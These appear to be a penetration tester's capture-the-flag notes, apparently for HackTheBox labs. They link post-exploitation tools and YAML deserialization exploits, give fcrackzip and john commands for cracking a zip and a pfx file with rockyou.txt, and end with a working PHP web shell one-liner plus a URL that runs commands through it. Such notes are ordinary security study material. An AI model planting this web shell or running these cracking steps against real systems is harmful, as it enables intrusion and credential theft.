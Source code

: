 
## Post ex
### C# offensive tools
https://github.com/Flangvik/SharpCollection
eg sharphound -> bloodhound AD rights and relations

# Privesc
Ruby YAML deserialization
https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/



# Cracking
## Crack ssh ftp mysql users using wordlists:
cme ->Crackmapexec

## FTP
### Test ftp user wordlist using hydra:
![image](https://user-images.githubusercontent.com/19478700/211882774-b0a7dab7-2da4-4195-a7e9-230ce8a87c34.png)


## Zips:
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt


Cracking pfx:
pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash


# Terminal Ninja
## grep
**Filter txt from some words:**
```s
cat file.txt | grep -v 'Image\|Manager'
```
**Filter txt from endlines:**
```s
cat file.txt | grep .
```

## PHP
**Php one liner tat executes parameter commands:**
shell.php:
```php
<?php system($_GET["cmd"]); ?>
``` 
http://thetoppers.htb/shell.php?cmd=id
The response from the server contains the output of the OS command id
